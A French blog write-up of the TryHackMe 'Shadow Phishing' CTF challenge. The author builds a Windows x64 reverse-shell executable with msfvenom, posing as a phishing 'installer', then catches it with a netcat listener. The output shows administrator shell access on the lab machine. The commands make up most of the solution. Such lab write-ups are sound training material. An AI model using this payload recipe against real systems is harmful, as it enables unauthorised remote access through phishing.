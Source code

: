 ```yaml
---
title: TryHackMe - Shadow Phishing
date: 2025-03-26 14:32:49 -0400
description: Dans le cadre du Hackfinity Battle sur TryHackMe, le challenge "Shadow Phishing" nous plonge dans un scénario RedTeam où nous devons simuler une attaque de phishing avancée. Un certain "Cipher" (cipher@darknetmail.corp) envoie un email à "ShadowByte" (shadowbyte@darknetmail.corp), demandant la création d’un build du "SilentEdge Installer", un exécutable malveillant qui doit fonctionner proprement sur Windows 10 x64. L’objectif est de générer cet EXE, de confirmer qu’il établit une connexion reverse shell (simulant une porte dérobée installée via une campagne de phishing), et de le soumettre pour un "dead drop". Voici comment j’ai résolu ce défi, étape par étape.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking]
image:
    path: https://i.ibb.co/N2gTrq0p/a.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

<h2 style="color: orange;">Analyse</h2>

L’email de **Cipher** précise que nous devons créer un exécutable nommé `SilentEdge Installer` qui fonctionne sur *Windows 10 x64*. Bien que l’email ne mentionne pas explicitement un antivirus, le contexte du challenge **Shadow Phishing** suggère que l’EXE pourrait être utilisé dans une campagne de phishing pour installer une porte dérobée.

Mon objectif était donc de :

- Générer un payload reverse shell avec `msfvenom`.
- Configurer un listener pour recevoir la connexion.
- Soumettre l’exécutable pour valider le challenge via le **dead drop**.




<h2 style="color: orange;">Resolution</h2>
D'abord pour resoudre ce challenge, je vais commencer par un basic `msfvenom` pour creer un payload en `.exe` et voir s'il vas fonctionner ou si l'antivirus vas le flagger

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o hack.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: hack.exe

$ sudo rlwrap nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.6.8.193] from (UNKNOWN) [10.10.254.169] 49899
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
fisher\administrator

C:\Windows\system32>
```

J’ai généré un payload avec `msfvenom` en utilisant le `windows/x64/shell_reverse_tcp`, qui est compatible avec **Windows 10 x64**. J’ai spécifié mon `LHOST` comme `tun0` (mon IP sur le réseau VPN de TryHackMe, ici `10.6.8.193`) et le `LPORT` comme `1337`. Le fichier généré, `hack.exe`, fait `7168` bytes.

Ensuite, j’ai configuré un listener avec `netcat` en utilisant `sudo rlwrap nc -lnvp 1337` pour recevoir la connexion reverse shell. Après avoir exécuté `hack.exe` sur la machine cible (une machine **Windows 10 x64** fournie par le challenge), j’ai reçu une connexion sur mon listener. La commande `whoami` a confirmé que j’avais un shell avec les privilèges de l’utilisateur `fisher\administrator`, ce qui signifie qu'on a un accès administrateur.





![Hacked](https://i.ibb.co/0yKwv6m6/hacked.png)


<h2 style="color: orange;">Conclusion</h2>

Le challenge **Shadow Phishing** m’a permis de renforcer mes compétences en création de payloads malveillants et en simulation d’attaques de phishing, des techniques clés pour les opérations RedTeam. J’ai particulièrement apprécié le réalisme du scénario, qui met en scène une communication entre deux acteurs malveillants et une tâche concrète de création d’un dropper. Un grand merci à TryHackMe pour ce défi stimulant !


<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- **Love my artciles?** Follow me on [Twitter](https://x.com/@bloman19) and [Github](https://github.com/0xabdoulaye)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
